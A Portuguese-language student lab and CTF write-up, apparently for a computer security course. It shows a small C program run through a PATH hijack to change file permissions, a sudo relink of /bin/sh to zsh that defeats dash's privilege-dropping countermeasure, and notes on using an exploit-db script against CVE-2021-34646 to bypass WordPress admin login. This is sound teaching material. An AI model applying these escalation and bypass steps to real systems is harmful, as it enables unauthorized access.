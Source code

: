 ```
#include <stdlib.h>

int main() {
    printf("Programa malicioso\n");
    system("chmod 777 ~/Downloads/FSI/some_file");
    return 0;
}
```

3) Executamos o seguinte comando, para mudar a variável PATH na Bash:
```
$ export PATH=~/Downloads/FSI/:$PATH
```
Com este comando adicionamos o diretório ~/Downloads/FSI/ ao início PATH.

4) Ao executar o nosso programa do ponto 2 e executar o comando ls -l, para ver as permissões dos ficheiros, conseguimos ver que o programa alterou as propriedades do ficheiro.

5) O único obstáculo é que o sistema acabará por levar a uma chamada a /bin/dash, que possui contramedidas para esta situação, diminuindo as permissões do processo para as permissões de quem chama. Para isso mudamos o programa da shell para /bin/zsh, com o seguinte comando:
```
$ sudo ln -sf /bin/zsh /bin/sh
```

Os resultados estão nos *screenshots* seguintes:

![](https://i.imgur.com/kuEKgWw.png)

![](https://i.imgur.com/h914Iec.png)

---

# CTF

### Vulnerabilidade encontrada:
Booster for Woocommerce, plugin do WordPress, é vulnerável a bypass de autenticação por e-mail até à versão 5.4.3, CVE-2021-34646.

### Utilizadores identificados:
- Orval Sanford (ID?)
- admin (ID: 1)

### Como executamos o ataques:
Encontrámos um script no site exploit-db.com que automaticamente gerava tokens e verificava se "passavam" como login para um certo user, user esse sendo o de ID 1 no nosso caso.

### Versões de Software:
- WordPress: 5.8.1
- WooCommerce: 5.7.1
- Booster for WooCommerce: 5.4.3

